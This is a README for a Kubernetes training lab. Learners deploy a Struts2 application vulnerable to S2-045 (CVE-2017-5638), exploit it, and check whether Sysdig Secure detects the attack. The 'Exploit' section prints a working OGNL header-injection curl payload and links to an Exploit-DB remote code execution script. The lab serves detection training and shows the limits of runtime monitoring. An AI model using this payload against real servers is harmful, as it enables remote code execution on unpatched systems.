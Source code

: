 # Vulnerable Struts2 (S2-045) Lab

In this lab, you will deployed a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application

-  Your instructor or environment will provide the a setup.sh file and a pre-configured cluster hosting the Sysdig Detection Agent  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://<NodeIP>:30080` in a browser or use curl:
 
   curl -v http://<NodeIP>:30080

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit  

- **Trigger the RCE** by issuing: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExplpoitDB: https://www.exploit-db.com/exploits/41570
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection**

- A clear distinction must be made here on how to detect this attack and the limitations posed with Run Time analysis.
- The curl command executes successfully returning 1337 in our custom header "vulhub"
- However, will not be picked up in **Sysdig** as no process was spawned, no file was accessed, and no network anomalies were detected.
- However the python script does yield a **Medium** severity
- In Sysdig: Navigate to "Threats" -->  "Sysdig Runtime Notable Events" --> Event ID: 18191e49f34866df273474732a500c25
- In short, a header injection will not trigger in Sysdig but a new system process such as 'cat' will. 

